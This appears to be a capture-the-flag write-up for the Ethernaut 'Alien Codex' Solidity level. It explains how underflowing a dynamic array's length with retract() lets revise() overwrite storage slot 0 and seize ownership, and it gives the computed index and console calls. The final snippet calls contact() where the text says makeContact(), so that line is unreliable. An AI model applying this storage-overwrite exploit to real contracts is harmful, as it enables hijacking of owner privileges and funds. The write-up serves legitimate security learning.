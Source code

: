 ```yaml
---
title: Ethernaut - Alien Codex - Solution
date: '2024-06-19'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Alien Codex CTF
---
```


# Ethernaut - Alien Codex - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## Solution

The goal of this challenge is to become the owner of the contract.

Before we discuss the solution, I highly recommend reading the section on the [layout of dynamic arrays in storage](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays) in the official Solidity docs.

Based on the docs, our level instance has the following storage layout:

| Slot | Data |
|------|------|
| $$0$$ | `bool public contact` and `address private _owner` |
| $$1$$ | `codex.length` |
|...| ... |
| $$keccak256(1)$$ | `codex[0]` |
| $$keccak256(1) + 1$$ | `codex[1]` |
|...| ... |
| $$2^{256} - 1$$ | `codex[2 ** 256 - 1 - uint256(keccak256(abi.encode(1)))]` |
| $$0$$ | `codex[2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1]` |
|...| ... |

Notice that both `contact` as well as `Ownable`'s `_owner` will be packed into slot 0.
We can verify this by executing

```bash
cast storage <your level instance address> 0 --rpc-url $SEP_RPC_URL
```

before and after calling `makeContact()`.

Furthermore, notice that the `revise()` function allows us to override what's stored in slot 0 by writing to the `2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1`th entry of the `codex` array.
However, in order to set a value at this index, we must ensure our `codex` array is large enough for the index `2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1` to exist.
To achieve that, we can use `retract()` to subtract 1 from `codex.length` to underflow the array's length from zero to $$2^{256}-1$$.

As conclusion, we can become the owner of the level instance via the following steps:

1. Call `makeContact()` so that we can pass the `contacted()` modifier.
2. Call `retract()` to increase `codex.length` to $$2^{256}-1$$.
3. Call `revise()` to override slot 0 in a way that makes our player EOA the owner.

Based on the insights mentioned above, we can compute the parameters needed for step 3. via Chisel:

#### `i`
```bash
➜ uint256 i = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
➜ i
Type: uint256
├ Hex: 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
├ Hex (full word): 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
└ Decimal: 35707666377435648211887908874984608119992236509074197713628505308453184860938
```

#### `_content`

```bash
➜ bytes32(uint256(uint160(<your player address>)))
```

To summarize, we can solve this level in the Ethernaut console via:

```javascript
await contract.contact()

await contract.retract()

await contract.revise("35707666377435648211887908874984608119992236509074197713628505308453184860938", "<your player address cast to bytes32>")
```
